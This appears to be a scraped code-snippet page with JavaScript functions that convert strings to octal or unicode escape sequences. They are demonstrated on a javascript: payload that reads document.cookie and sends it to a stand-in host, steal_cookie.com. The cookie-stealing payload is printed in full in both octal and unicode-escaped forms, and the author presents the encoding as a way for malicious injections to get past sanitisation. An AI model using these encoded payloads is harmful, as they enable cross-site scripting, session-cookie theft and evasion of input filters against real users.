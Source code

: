 <pre>
<span style='color:#800000; font-weight:bold; '>function</span> string_to_octal<span style='color:#808030; '>(</span>string<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
  <span style='color:#800000; font-weight:bold; '>return</span> string<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>replace</span><span style='color:#808030; '>(</span><span style='color:#800000; '>/</span><span style='color:#808030; '>.</span><span style='color:#800000; '>/</span><span style='color:#800000; font-weight:bold; '>g</span><span style='color:#808030; '>,</span> <span style='color:#800000; font-weight:bold; '>function</span><span style='color:#808030; '>(</span>char<span style='color:#808030; '>,</span> <span style='color:#797997; '>index</span><span style='color:#808030; '>,</span> whole<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
    <span style='color:#800000; font-weight:bold; '>return</span> <span style='color:#008c00; '>256</span> <span style='color:#808030; '>></span> char<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>charCodeAt</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>0</span><span style='color:#808030; '>)</span> <span style='color:#800080; '>?</span> <span style='color:#800000; '>"</span><span style='color:#0f69ff; '>\\\\</span><span style='color:#800000; '>"</span> <span style='color:#808030; '>+</span> <span style='color:#808030; '>(</span><span style='color:#0000e6; '>'0'</span> <span style='color:#808030; '>+</span> char<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>charCodeAt</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>0</span><span style='color:#808030; '>)</span><span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>toString</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>8</span><span style='color:#808030; '>)</span><span style='color:#808030; '>)</span><span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>slice</span><span style='color:#808030; '>(</span><span style='color:#808030; '>-</span><span style='color:#008c00; '>3</span><span style='color:#808030; '>)</span> <span style='color:#800080; '>:</span> unicode_to_string<span style='color:#808030; '>(</span>char<span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
  <span style='color:#800080; '>}</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
<span style='color:#800080; '>}</span>
<span style='color:#800000; font-weight:bold; '>function</span> string_to_unicode<span style='color:#808030; '>(</span>string<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
  <span style='color:#800000; font-weight:bold; '>return</span> string<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>replace</span><span style='color:#808030; '>(</span><span style='color:#800000; '>/</span><span style='color:#808030; '>.</span><span style='color:#800000; '>/</span><span style='color:#800000; font-weight:bold; '>g</span><span style='color:#808030; '>,</span> <span style='color:#800000; font-weight:bold; '>function</span><span style='color:#808030; '>(</span>char<span style='color:#808030; '>,</span> <span style='color:#797997; '>index</span><span style='color:#808030; '>,</span> whole<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
    <span style='color:#800000; font-weight:bold; '>return</span> <span style='color:#800000; '>"</span><span style='color:#0f69ff; '>\\\\</span><span style='color:#0000e6; '>u</span><span style='color:#800000; '>"</span> <span style='color:#808030; '>+</span> <span style='color:#808030; '>(</span><span style='color:#0000e6; '>'0000'</span> <span style='color:#808030; '>+</span> char<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>charCodeAt</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>0</span><span style='color:#808030; '>)</span><span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>toString</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>16</span><span style='color:#808030; '>)</span><span style='color:#808030; '>)</span><span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>slice</span><span style='color:#808030; '>(</span><span style='color:#808030; '>-</span><span style='color:#008c00; '>4</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
  <span style='color:#800080; '>}</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
<span style='color:#800080; '>}</span>
<span style='color:#800000; font-weight:bold; '>function</span> unicode_to_string<span style='color:#808030; '>(</span>string<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
  <span style='color:#800000; font-weight:bold; '>return</span> string<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>replace</span><span style='color:#808030; '>(</span><span style='color:#800000; '>/</span><span style='color:#808030; '>[</span><span style='color:#ffffff; background:#dd0000; font-weight:bold; font-style:italic; '>\\u</span><span style='color:#0000e6; '>0000</span><span style='color:#808030; '>-</span><span style='color:#ffffff; background:#dd0000; font-weight:bold; font-style:italic; '>\\u</span><span style='color:#0000e6; '>ffff</span><span style='color:#808030; '>]</span><span style='color:#800000; '>/</span><span style='color:#800000; font-weight:bold; '>g</span><span style='color:#808030; '>,</span> <span style='color:#800000; font-weight:bold; '>function</span><span style='color:#808030; '>(</span>char<span style='color:#808030; '>,</span> <span style='color:#797997; '>index</span><span style='color:#808030; '>,</span> whole<span style='color:#808030; '>)</span><span style='color:#800080; '>{</span>
    <span style='color:#800000; font-weight:bold; '>return</span> String<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>fromCharCode</span><span style='color:#808030; '>(</span>char<span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>charCodeAt</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>0</span><span style='color:#808030; '>)</span><span style='color:#808030; '>.</span><span style='color:#800000; font-weight:bold; '>toString</span><span style='color:#808030; '>(</span><span style='color:#008c00; '>10</span><span style='color:#808030; '>)</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
  <span style='color:#800080; '>}</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span>
<span style='color:#800080; '>}</span>
</pre>

test it..
for <code>javascript<span style='color:#800080; '>:</span><span style='color:#808030; '>(</span><span style='color:#800000; font-weight:bold; '>function</span><span style='color:#808030; '>(</span><span style='color:#808030; '>)</span><span style='color:#800080; '>{</span><span style='color:#800000; font-weight:bold; '>var</span> img <span style='color:#808030; '>=</span> <span style='color:#800000; font-weight:bold; '>new</span> <span style='color:#797997; '>Image</span><span style='color:#808030; '>(</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span> img<span style='color:#808030; '>.</span>src<span style='color:#808030; '>=</span><span style='color:#800000; '>"</span><span style='color:#0000e6; '>https://steal_cookie.com?cookie=</span><span style='color:#800000; '>"</span> <span style='color:#808030; '>+</span> encodeURIComponent<span style='color:#808030; '>(</span>document<span style='color:#808030; '>.</span>cookie<span style='color:#808030; '>)</span><span style='color:#800080; '>;</span> <span style='color:#800000; font-weight:bold; '>return</span> <span style='color:#0f4d75; '>true</span><span style='color:#800080; '>;</span><span style='color:#800080; '>}</span><span style='color:#808030; '>(</span><span style='color:#808030; '>)</span><span style='color:#808030; '>)</span><span style='color:#800080; '>;</span></code>

either the "prefer octal over unicode": <code>"\\152\\141\\166\\141\\163\\143\\162\\151\\160\\164\\072\\050\\146\\165\\156\\143\\164\\151\\157\\156\\050\\051\\173\\166\\141\\162\\040\\151\\155\\147\\040\\075\\040\\156\\145\\167\\040\\111\\155\\141\\147\\145\\050\\051\\073\\040\\151\\155\\147\\056\\163\\162\\143\\075\\042\\150\\164\\164\\160\\163\\072\\057\\057\\163\\164\\145\\141\\154\\137\\143\\157\\157\\153\\151\\145\\056\\143\\157\\155\\077\\143\\157\\157\\153\\151\\145\\075\\042\\040\\053\\040\\145\\156\\143\\157\\144\\145\\125\\122\\111\\103\\157\\155\\160\\157\\156\\145\\156\\164\\050\\144\\157\\143\\165\\155\\145\\156\\164\\056\\143\\157\\157\\153\\151\\145\\051\\073\\040\\162\\145\\164\\165\\162\\156\\040\\164\\162\\165\\145\\073\\175\\050\\051\\051\\073"</code> (which most of ASCII based code will work quite unify with..)
or just "100% unicode encoding": <code>"\\u006a\\u0061\\u0076\\u0061\\u0073\\u0063\\u0072\\u0069\\u0070\\u0074\\u003a\\u0028\\u0066\\u0075\\u006e\\u0063\\u0074\\u0069\\u006f\\u006e\\u0028\\u0029\\u007b\\u0076\\u0061\\u0072\\u0020\\u0069\\u006d\\u0067\\u0020\\u003d\\u0020\\u006e\\u0065\\u0077\\u0020\\u0049\\u006d\\u0061\\u0067\\u0065\\u0028\\u0029\\u003b\\u0020\\u0069\\u006d\\u0067\\u002e\\u0073\\u0072\\u0063\\u003d\\u0022\\u0068\\u0074\\u0074\\u0070\\u0073\\u003a\\u002f\\u002f\\u0073\\u0074\\u0065\\u0061\\u006c\\u005f\\u0063\\u006f\\u006f\\u006b\\u0069\\u0065\\u002e\\u0063\\u006f\\u006d\\u003f\\u0063\\u006f\\u006f\\u006b\\u0069\\u0065\\u003d\\u0022\\u0020\\u002b\\u0020\\u0065\\u006e\\u0063\\u006f\\u0064\\u0065\\u0055\\u0052\\u0049\\u0043\\u006f\\u006d\\u0070\\u006f\\u006e\\u0065\\u006e\\u0074\\u0028\\u0064\\u006f\\u0063\\u0075\\u006d\\u0065\\u006e\\u0074\\u002e\\u0063\\u006f\\u006f\\u006b\\u0069\\u0065\\u0029\\u003b\\u0020\\u0072\\u0065\\u0074\\u0075\\u0072\\u006e\\u0020\\u0074\\u0072\\u0075\\u0065\\u003b\\u007d\\u0028\\u0029\\u0029\\u003b"</code>

running the following will have same meaning, and it will not actual needed to be translated back, it is totally 100% executable code, but (naturally) a bit more hard to read..
but it DOES sanitize successfully since the character encoding does not differentiate any of the char meaning (other then escaped string - string manipulation).


<blockquote>the idea is that you do not need any conversion-matrix tables, or encrypt/decrypt methods (or any intermediate over just evaluating the string).</blockquote>
', 'JavaScript Character Encoding As Spoofing, Or Malicious  Injections That Are 100% executable